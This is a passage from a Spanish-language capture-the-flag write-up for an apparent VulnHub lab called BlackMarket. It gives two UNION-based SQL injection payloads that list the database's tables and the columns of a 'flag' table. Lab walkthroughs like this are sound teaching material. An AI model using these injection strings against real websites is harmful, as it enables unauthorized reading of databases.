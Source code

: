 Ahora vamos a enumerar las tablas para la base de datos `BlackMarket`

```bash
192.168.1.152/vworkshop/sparepartsstoremore.php?sparepartid=-1' union select 1,2,3,group_concat(table_name),5,6,7 from information_schema.tables where table_schema='BlackMarket'-- -
```

Estas son las tables

![](/assets/images/vh-writeup-blackmarket/21.png)

Ahora vamos a enumerar las columnas de `flag` a ver si hay algo interesante

```bash
-1' union select 1,2,3,group_concat(column_name),5,6,7 from information_schema.columns where table_schema='BlackMarket' and table_name='flag'-- -
```

Encontramos esto

>
* **Perdon:** No se que paso con la imagen pero igual veran el resultado cuando ejecuten la query ustedes
>
